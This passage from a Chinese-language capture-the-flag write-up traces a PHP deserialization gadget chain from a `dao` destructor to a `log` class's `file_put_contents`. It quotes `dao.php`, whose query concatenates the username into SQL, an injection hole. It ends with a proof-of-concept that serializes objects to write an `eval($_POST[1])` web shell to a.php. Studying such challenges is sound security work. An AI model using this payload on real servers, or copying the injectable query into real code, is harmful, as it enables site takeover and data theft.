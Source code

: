 ```php
	}

}
```

在 `log` 类中 的 `close()` 方法中 有危险函数 `file_put_contents`，接下来就是找哪里调用了 close() 函数，发现 在 `dao.php` 里的析构函数里 调用了 close() 方法，且 index.php 包含了 dao.php。也就是说如果我们让`$this->coon`是 `log` 类，那么当反序列化时就会去调用 `log` 类中的 `close` 函数

```php
<?php

require 'config.php';
require 'class.php';


class dao{
	private $config;
	private $conn;

	public function __construct(){
		$this->config=new config();
		$this->init();
	}
	private function init(){
		$this->conn=new mysqli($this->config->get_mysql_host(),$this->config->get_mysql_username(),$this->config->get_mysql_password(),$this->config->get_mysql_db());
	}
	public function __destruct(){
		$this->conn->close();
	}

	public function get_user_password_by_username($u){
		$sql="select sds_password from sds_user where sds_username='".$u."' order by id limit 1;";
		$result=$this->conn->query($sql);
		$row=$result->fetch_array(MYSQLI_BOTH);
		if($result->num_rows>0){
			return $row['sds_password'];
		}else{
			return '';
		}
	}

}
```

### 解题

接下来构造 POC

```php
<?php
class dao{
	private $conn;

	public function __construct(){
		$this->conn=new log();
	}
}
class log{
	public $title='a.php';
	public $info='<?php eval($_POST[1]);?>';
}
$a=new dao();
echo base64_encode(serialize($a));
```